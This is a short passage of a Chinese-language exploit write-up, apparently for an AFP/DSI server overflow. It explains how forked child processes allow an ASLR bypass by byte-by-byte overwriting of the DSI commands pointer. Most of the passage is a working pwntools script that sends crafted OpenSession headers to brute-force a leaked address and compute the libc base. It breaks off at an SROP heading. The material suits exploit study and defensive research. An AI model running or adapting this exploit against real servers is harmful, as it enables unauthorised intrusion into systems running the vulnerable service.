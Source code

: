 程序开了ASLR，每有一个新的连解就会fork出一个子进程处理，子进程的地址空间与父进程相同。

当覆写的`commands`指针不合法的时候，会产生段错误。如果是合法地址，服务器会将`server_quantum`的内容回传。那么可以一位一位的覆盖`DSI->commands`如果没有段错误(有返回内容)则说明爆破正确。

```python
from pwn import *
import struct

# context.log_level = "debug"
context.update(arch="amd64",os="linux")
ip = 'localhost'
port = 5566
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def create_header(addr):
    dsi_opensession = "\x01" # attention quantum option
    dsi_opensession += chr(len(addr)+0x10) # length
    dsi_opensession += "a"*0x10+addr
    dsi_header = "\x00" # "request" flag
    dsi_header += "\x04" # open session command
    dsi_header += "\x00\x01" # request id
    dsi_header += "\x00\x00\x00\x00" # data offset
    dsi_header += struct.pack(">I", len(dsi_opensession))
    dsi_header += "\x00\x00\x00\x00" # reserved
    dsi_header += dsi_opensession
    return dsi_header


addr = ""
while len(addr)<6 :
    for i in range(256):
        r = remote(ip,port)
        r.send(create_header(addr+chr(i)))
        try:
            if "a"*4 in r.recvrepeat(1):
                addr += chr(i)
                r.close()
                break
        except:
            r.close()
    val = u64(addr.ljust(8,'\x00'))
    print hex(val)
addr += "\x00"*2
libc_addr = u64(addr)
log.success("[+]Now we got an addresss {}".format(hex(libc_addr)))
offset = 0x535a000  # 这个offset与环境相关
libc_base = libc_addr + offset
log.success("[+]libc base {}".format(hex(libc_base)))
```

### SROP
